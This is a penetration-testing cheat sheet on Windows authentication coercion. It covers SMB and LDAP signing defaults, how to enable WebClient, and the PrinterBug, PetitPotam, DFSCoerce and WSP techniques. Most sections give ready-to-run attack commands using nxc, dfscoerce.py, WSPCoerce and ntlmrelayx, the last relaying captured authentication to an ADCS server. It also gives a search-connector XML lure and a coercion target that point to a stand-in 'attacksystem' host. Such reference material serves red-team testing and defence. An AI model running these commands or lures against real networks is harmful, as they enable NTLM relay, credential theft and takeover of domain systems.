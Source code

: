 # Internal - Coerce

Coerce refers to forcing a target machine (usually with SYSTEM privileges) to authenticate to another machine.

## Signing

### Server Side Signing

| Operating System | SMB Signing | LDAP Signing |
| ------------------------------- | --- | --- |
| Windows Server 2019 DC          | ✅  |  ❌ |
| Windows Server 2022 DC pre 23H2 | ✅  |  ❌ |
| Windows Server 2022 DC 23H2     | ✅  |  ✅ |
| Windows Server 2025 DC          | ✅  |  ✅ |
| Windows Server 2019 Member      | ❌  |  -  |
| Windows Server 2022 Member      | ❌  |  -  |
| Windows Server 2025 Member      | ❌  |  -  |
| Windows 10                      | ❌  |  -  |
| Windows 11 23H2                 | ❌  |  -  |
| Windows 11 24H2                 | ✅  |  -  |

* Server-side SMB signing has been enabled on domain controllers
* Server-side SMB signing is still not required by default on non-DC Windows server

## WebClient Service

* On Windows workstations, the WebClient service is installed by default.
* On Windows servers, it is not installed by default

**Enable WebClient**:

WebClient service can be enabled on the machine using several techniques:

* Mapping a WebDav server using `net` command : `net use ...`
* Typing anything into the explorer address bar that isn't a local file or directory
* Browsing to a directory or share that has a file with a `.searchConnector-ms` extension located inside.

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
        <description>Microsoft Outlook</description>
        <isSearchOnlyItem>false</isSearchOnlyItem>
        <includeInStartMenuScope>true</includeInStartMenuScope>
        <templateInfo>
            <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
        </templateInfo>
        <simpleLocation>
            <url>http://attacksystem/path</url>
        </simpleLocation>
    </searchConnectorDescription>
    ```

Check if the WebDav service is running

```ps1
nxc smb <ip> -u 'user' -p 'pass' -M webdav
```

## MS-RPRN - PrinterBug

**Tools**:

* [leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample) - PoC tool to coerce Windows hosts authenticate to other machines via the MS-RPRN RPC interface.

**Examples**:

```ps1
poetry run nxc smb 10.10.10.10/24 -u username -p password -M coerce_plus -o METHOD=PrinterBug
```

Checking if the Spooler Service is running.

```ps1
nxc smb <ip> -u 'user' -p 'pass' -M spooler
```

## MS-EFSR - PetitPotam

The tools use the LSARPC named pipe with interface `c681d488-d850-11d0-8c52-00c04fd90f7e` because it's more prevalent. But it's possible to trigger with the EFSRPC named pipe and interface `df1941c5-fe89-4e79-bf10-463657acf44d`.

**Tools**:

* [topotam/PetitPotam](https://github.com/topotam/PetitPotam) - PoC tool to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw or other functions.

**Examples**:

```ps1
poetry run nxc smb 10.10.10.10/24 -u username -p password -M coerce_plus -o METHOD=PetitPotam
```

## MS-DFSNM - DFS Coercion

DFS Coerce (MS-DFSNM abuse) is a technique to force a Windows system to authenticate to an attacker-controlled machine by abusing the DFS Namespace Management RPC interface.

**Tools**:

* [Wh04m1001/DFSCoerce](https://github.com/Wh04m1001/DFSCoerce) - PoC for MS-DFSNM coerce authentication using NetrDfsRemoveStdRoot and NetrDfsAddStdRoot methods.

**Examples**:

```ps1
python3 dfscoerce.py -u username -d domain.local 10.10.10.10 10.10.10.11
poetry run nxc smb 10.10.10.10/24 -u username -p password -M coerce_plus -o METHOD=DFSCoerce
```

## MS-WSP - WSP Coercion

* The `wsearch` service is only enabled by default on workstations, and has been disabled on servers since Server 2016.
* Only SMB connections can be coerced with WSP.

**Tools**:

* [slemire/WSPCoerce](https://github.com/slemire/WSPCoerce) - PoC to coerce authentication from Windows hosts using MS-WSP.
* [RedTeamPentesting/wspcoerce](https://github.com/RedTeamPentesting/wspcoerce) - wspcoerce coerces a Windows computer account via SMB to an arbitrary target using MS-WSP.

**Examples**:

```ps1
WSPCoerce.exe <target> <listener>
WSPCoerce.exe labsw1 172.23.10.109
WSPCoerce.exe labsw1 labsrv1

wspcoerce 'lab.redteam/rtpttest:test1234!@192.0.2.115' "file:////attacksystem/share"
ntlmrelayx.py -t "http://192.0.2.5/certsrv/" -debug -6 -smb2support --adcs
```

* Can't use an IP address for the target, use a short hostname only (no FQDN)
* Make sure to use a hostname or FQDN for the listener if you want to receive Kerberos auth

## References

* [Changes to SMB Signing Enforcement Defaults in Windows 24H2 - Michael Grafnetter - January 26, 2025](https://www.dsinternals.com/en/smb-signing-windows-server-2025-client-11-24h2-defaults/)
* [The Ultimate Guide to Windows Coercion Techniques in 2025 - RedTeam Pentesting - June 4, 2025](https://blog.redteam-pentesting.de/2025/windows-coercion/)
